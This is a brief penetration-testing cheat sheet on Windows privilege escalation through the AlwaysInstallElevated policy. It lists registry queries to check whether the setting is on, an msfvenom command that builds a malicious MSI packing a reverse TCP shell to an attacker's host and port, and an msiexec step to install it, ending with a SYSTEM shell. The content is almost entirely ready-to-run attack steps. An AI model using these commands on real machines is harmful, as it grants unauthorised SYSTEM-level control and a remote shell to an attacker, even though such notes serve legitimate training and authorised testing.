 # Always Install Elevated

Always Install Elevated is a registry / GPO setting that allows non privileged accounts to install Windows Package Installer (MSI) files with SYSTEM permissions. Usually this is used in environments to reduce workload for Helpdesk staff for when users require software to be installed.

## TIP: winPEAS also enumerates this attack vector

### 1) Query registry keys

##### Value 0x1 represents AlwaysInstallElevated as being enabled.

    reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
    reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

### 2) Create a malicious .msi file and transfer it on the attacking machine

    msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<Port> -f msi -o Application.msi

### 3) Manually try to install the .msi file

    msiexec /i "path\Application.msi"

### 4) Got a shell as SYSTEM.
